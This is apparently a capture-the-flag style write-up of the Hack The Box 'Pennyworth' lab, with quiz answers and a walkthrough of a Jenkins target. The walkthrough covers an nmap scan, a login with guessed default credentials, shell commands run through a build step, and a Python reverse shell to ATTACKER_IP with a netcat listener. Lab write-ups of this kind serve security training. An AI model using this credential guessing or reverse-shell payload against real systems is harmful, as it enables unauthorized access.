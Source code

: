 ```yaml
---
title: "[Starting Point] Tier 1: Pennyworth"
tags:
  - Very Easy
  - Linux
  - Jenkins
---
```


| Difficulty |  |  IP Address   |  |
| :--------: |--| :-----------: |--|
|  Very Easy |  | 10.129.82.175 |  |

---

### [ What does the acronym CVE stand for? ]

**Common Vulnerabilities and Exposures**

---

### [ What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for? ]

**Confidentiality, Integrity, Availability**

---

### [ What is the version of the service running on port 8080? ]

Let's run an **Nmap** scan on the target machine. We load in standard scripts (-sC) and enable version enumeration (-sV).

```
sudo nmap -sC -sV -vv -T4 10.129.82.175
```

<img style="float: left;" src="screenshots/screenshot1.png">

From the results, we can see that only **1** port is open: **8080** (HTTP)

The service version running is **Jetty 9.4.39.v20210325**

---

### [ What version of Jenkins is running on the target? ]

Let's visit http://10.129.82.175:8080

<img style="float: left;" src="screenshots/screenshot2.png">''

We are brought to a **Jenkins** login page.

I tried common admin credentials, such as **admin:admin** and **root:root**. 

Eventually, I came across a set of creds that allowed me to log in - **root:password**

<img style="float: left;" src="screenshots/screenshot3.png">

From the bottom of the page, we can see the Jenkins version: **2.289.1**

---

### [ What type of script is accepted as input on the Jenkins Script Console? ]

<img style="float: left;" src="screenshots/screenshot4.png">

**Groovy** script is accepted as input.

---

### [ What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows? ]

**cmd.exe**

---

### [ What is a different command than "ip a" we could use to display our network interfaces' information on Linux? ]

**ifconfig**

---

### [ What switch should we use with netcat for it to use UDP transport mode? ]

**-u**

---

### [ What is the term used to describe making a target host initiate a connection back to the attacker host? ]

**reverse shell**

---

### [ Submit root flag ]

We can use Jenkin's Groovy Script Console to open a reverse shell back to us (the attacker).

First, we click on the '**Groovy Script**' project on the dashboard. This will bring us to the following page:

<img style="float: left;" src="screenshots/screenshot5.png">

Next, we click on **Configure** on the left side-bar, which will bring us to the configuration page for the Groovy Script Console.

Scroll down to the **Build** section. Click on **Add build step** > **Execute shell**. Let's try to run a simple `id` command:

<img style="float: left;" src="screenshots/screenshot6.png">

After saving, we will be brought back to the main page.

Click on **Build Now** on the left side-bar. After some time, a new entry should appear at the bottom left, under **Build History**:

<img style="float: left;" src="screenshots/screenshot7.png">

*(There should only be 1 entry, I've already built multiple times.)*

Click on the new entry, then click on **Console Output**:

<img style="float: left;" src="screenshots/screenshot8.png">

Nice! The `id` command was successfully run and we have achieved **remote code execution**. We can now open a reverse shell back to our machine. 

*(I'll be using the Python payload from: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)*

Replace `id` in the build settings with:

```
export RHOST="ATTACKER_IP";export RPORT=4444;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

Next, set up a netcat listener running on your specified port:

```
nc -lvnp 4444
```

Finally, build the project.

<img style="float: left;" src="screenshots/screenshot9.png">

The reverse shell is opened and we're in!

The root flag can be found in **/root**:

<img style="float: left;" src="screenshots/screenshot10.png">
